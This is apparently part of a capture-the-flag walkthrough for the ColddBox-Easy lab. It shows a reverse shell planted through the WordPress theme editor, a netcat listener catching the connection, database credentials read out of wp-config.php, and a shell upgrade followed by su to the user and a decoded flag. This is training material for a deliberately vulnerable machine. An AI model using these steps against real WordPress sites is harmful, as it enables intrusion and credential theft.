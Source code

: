 1) I login in this site such as c0ldd 
3) After I go in this page "http://10.10.111.44/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen&scrollto=2910&updated=true" and I insert my reverse shell
4) Then I open a listening port with netcat:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234     
```
5) Now I go in this page "http://10.10.111.44/wp-content/themes/twentyfifteen/404.php" to activate the reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.8.21.1] from (UNKNOWN) [10.10.111.44] 33812
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:08:19 up 15 min,  0 users,  load average: 0.00, 0.08, 0.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
6) I find the credentials of thedatabase:
```
$ pwd
/var/www/html

$ cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');
...
```
--> c0ldd:cybersecurity

7) I upgrade the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:$
```
8) I use the credentials (c0ldd:cybersecurity):
```
www-data@ColddBox-Easy:$ su c0ldd                                         
su c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:$ 
```
9) I get the user.txt:
```
c0ldd@ColddBox-Easy:/$ cat /home/c0ldd/user.txt
cat /home/c0ldd/user.txt
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```
10) I decode the flag:
```
┌──(kali㉿kali)-[~]
└─$ nano password.txt    

┌──(kali㉿kali)-[~]
└─$ base64 --decode password.txt                                     
Felicidades, primer nivel conseguido! 
```